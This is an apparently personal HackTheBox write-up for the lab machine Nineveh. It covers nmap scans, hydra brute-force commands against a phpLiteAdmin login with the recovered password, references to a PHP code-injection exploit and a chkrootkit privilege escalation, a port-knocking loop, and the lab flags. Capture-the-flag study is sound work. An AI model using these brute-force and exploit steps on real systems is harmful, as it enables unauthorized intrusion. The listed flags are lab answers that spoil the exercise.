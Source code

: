 # Nineveh - 10.10.10.43 - HackTheBox

## Nmap Scan:

```java
# Nmap 7.80 scan initiated Tue Jun 30 13:42:46 2020 as: nmap -A -T4 -p80,443 -oN initial.nmap 10.10.10.43
Nmap scan report for 10.10.10.43
Host is up (0.20s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   190.59 ms 10.10.14.1
2   195.90 ms 10.10.10.43

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 30 13:43:22 2020 -- 1 IP address (1 host up) scanned in 36.85 seconds

```

# Initial Foothold

Starting off enumeration on port 80.

### Directory Bruteforce

PORT 80:

`/info.php` >> Content of this page has output of `phpinfo.php()`
`/department` >> Has a login page with an HTML comment in page source.

HTML comment: `@admin! MySQL is been installed.. please fix the login page! ~amrois`

`amrois` is a potential username.

PORT 443:

`/secure_notes` >> Just an image.
`/db` >> phpLiteAdmin v1.9


PUBLIC EXPLOIT on PHPLiteAdmin:

`PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | exploits/php/webapps/24044.txt`

It requires authentication so I will use hydra for HTTP login bruteforce.

Hydra Command:

`hydra -l none -P rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 64 -V`

Using user `none` doesn't help. We will target a generic username `admin`

Command:

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 64`

Credentials:
`admin:password123`

Upload PHP Shell > Shell as www-data.

### Port Knocking

Analysing /etc/knockd.conf gives us sequence of ports to knock. Running strings on https://nineveh.htb/secure_notes/nineveh.png gives us SSH keys.

Port knock command:

`for x in 571 290 911; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x 10.10.10.43; done`

SSH Port Opens

```
nmap -p22 10.10.10.43
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-30 14:50 IST
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.49s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```

Based on enumeration done on port 80, we can assume that `amrois` is a valid user.


# Privilege Escalation

Running LinEnum reveals that `/usr/sbin/report-reset.sh` is being run in a cronjob. It deletes `/report/*.txt` after every few seconds. Reviewing the report files tells that those are created by `chkrootkit`. There's a public exploit on it.

`Chkrootkit 0.49 - Local Privilege Escalation | exploits/linux/local/33899.txt`

Adding a bash reverse shell payload or simply copying /root/root.txt to /home/amrois/root.txt will work in `/tmp/update`

## Flags

user.txt: `82a864f9eec2a76c166ec7b1078ca6c8`
root.txt: `8a2b4956612b485720694fb45849ec3a`
